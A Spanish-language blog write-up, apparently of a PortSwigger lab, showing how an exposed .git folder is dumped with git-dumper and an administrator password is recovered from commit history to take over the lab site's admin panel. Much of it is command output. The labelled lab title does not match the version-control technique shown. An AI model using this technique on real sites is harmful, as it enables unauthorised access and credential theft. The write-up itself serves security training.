


+++
author = "Alux"
title = "Portswigger Academy Learning Path: Information Disclosure Lab 5"
date = "2021-12-15"
description = "Lab: Source code disclosure via backup files"
tags = [
    "information disclosure",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Source code disclosure via backup files

En este <cite>laboratorio[^1]</cite>la finalidad es poder mostrar en la aplicacion informacion de la infraestructura, software o algo que revele informacion del sistema. Esta vulnerabilidad mas conocida como `Information Disclosure`.

## Reconocimiento

Lo primero que tenemos es una aplicacion que parece todo normal, pero existe algo que al realizar una busqueda el sitio cuenta con una carpeta `.git` que nos dice eso que estan haciendo uso de git para el versionado de la aplicacion y esta carpeta es la que lleva el historial de todos los cambios en el sitio web.



## Explotacion

Todos estos archivos nos puede llevar a rastrear cambios, visualizar la contrasena del administrador que pudo estar en estor archivos ya que todo el cambio ahi esta registrado y estara el log y podemos regresar a cambios anteriores. Para eso debemos descargar en local toda la carpeta para trabajar con ella, pero con wget se vuelve muy complicado y por eso existe una tool muy buena que es git-dumper que nos descarga la carpeta completa, esta se instala con pip.

```bash
pip install git-dumper
```

Ahora la lanzamos con el sitio y la carpeta .git y la carpeta en la que queremos que se guarden todos nuestros archivos.

```bash
alux@rootsystems:~/tools$ git-dumper https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git test
[-] Testing https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/HEAD [200]
[-] Testing https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ [200]
[-] Fetching common files
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-receive.sample [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.gitignore [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.gitignore responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-update.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/COMMIT_EDITMSG [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/commit-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-commit.sample [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-applypatch.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/applypatch-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/description [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-push.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-commit.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-rebase.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/index [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/pre-receive.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/info/packs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/info/packs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/hooks/update.sample [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/exclude [200]
[-] Finding refs/
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/HEAD [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/FETCH_HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/FETCH_HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/HEAD [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/refs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/info/refs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/config [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ORIG_HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/ORIG_HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/heads/master [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/stash [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/logs/refs/stash responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/packed-refs [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/packed-refs responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/heads/master [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/wtree/refs/heads/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/stash [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/stash responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/HEAD [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/remotes/origin/master responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/index/refs/heads/master [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/89/44e3b9853691431dc58d5f4978d3940cea4af2 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/fd/566ec1574b5eb704b3b69a275cdedf33dfc1b9 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/d23f13ce6c704b81857379a3e247e3436f4b26 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/63/10c3e39bf987171b2f674fbb643edddbe0e238 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/54555944002791a4d27412bf6e9a6f29e942fa [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/2a/43eabe500cc1a50c12bdbf2ed4c1f6ce3f1672 [200]
[-] Fetching https://ac951f811e6afa19c09f053f002800bc.web-security-academy.net/.git/objects/21/d2e87f8577056741bb3dd4608cfd7b7506cfa5 [200]
[-] Running git checkout .
```

Ahora que tenemos todos nuestros archivos podemos entrar y ver que esta en los archivos y carpetas creadas. Y hay algo que llama la atencion y es donde esta una contrasena de usuario pero que ahora esta como variable. Podriamos ver el historial si antes estaba ahi la contrasena real y no fue cambiada.

```bash
alux@rootsystems:~/tools/test(master)$ ls -la
drwxr-xr-x  - alux 15 dic 21:55 .git
.rw-r--r-- 37 alux 15 dic 21:55 admin.conf
.rw-r--r-- 88 alux 15 dic 21:55 admin_panel.php
alux@rootsystems:~/tools/test(master)$ cat admin_panel.php;echo
<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
alux@rootsystems:~/tools/test(master)$ cat admin.conf
ADMIN_PASSWORD=env('ADMIN_PASSWORD')
alux@rootsystems:~/tools/test(master)$
```

Para eso nos apoyamos de git y mostramos los cambios que se han realizado y vemos que ahi esta la nueva contrasena y la vieja por lo que deberiamos poder acceder con ella.

```bash
alux@rootsystems:~/tools/test(master)$ git show
commit fd566ec1574b5eb704b3b69a275cdedf33dfc1b9 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 21d2e87..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=ewm1p3s0m5xon81jftcj
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Y ahora ingresamos las credenciales de `administrator:ewm1p3s0m5xon81jftcj`, eliminamos al usuario carlos y resolvimos el lab:



[^1]: [Laboratorio](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files)